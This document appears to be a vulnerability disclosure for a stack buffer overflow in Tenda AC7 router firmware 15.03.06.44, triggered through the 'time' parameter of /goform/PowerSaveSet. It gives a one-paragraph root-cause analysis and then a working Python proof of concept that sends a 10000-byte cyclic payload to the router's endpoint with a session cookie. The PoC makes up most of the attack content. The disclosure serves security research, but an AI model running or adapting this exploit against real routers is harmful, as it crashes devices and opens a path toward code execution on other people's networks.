


## overview

| Firmware Name | Firmware Version | Download Link                                                |
| ------------- | ---------------- | ------------------------------------------------------------ |
| AC 7          | 15.03.06.44      | https://www.tenda.com.cn/prod/api/data/center/download/102776 |

## Vulnerability  Analysis



First, the websGetvar function is called to fetch the value of the time argument, and then the sscanf function is used to assign the value to the following four arrays, which are 8 bytes in size, resulting in a buffer overflow.

## poc

```
import requests
from pwn import *

# 配置请求参数
url = "http://192.168.0.1/goform/PowerSaveSet"
headers = {
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.204.133",
    "Referer": "http://192.168.204.133/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Cookie": "password=iqb1qw; bLanguage=cn",
    "Connection": "close"
}

# 自定义 time 参数
custom_time = cyclic(10000)  # 你可以修改这个值

# 构造请求体
data = {
    "time": custom_time
}

# 发送请求
try:
    response = requests.post(url, headers=headers, data=data)
    response.raise_for_status()  # 检查请求是否成功
    print(f"请求成功，状态码：{response.status_code}")
    print("响应内容：")
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"请求失败：{e}")

```

## Vulnerability Verification 

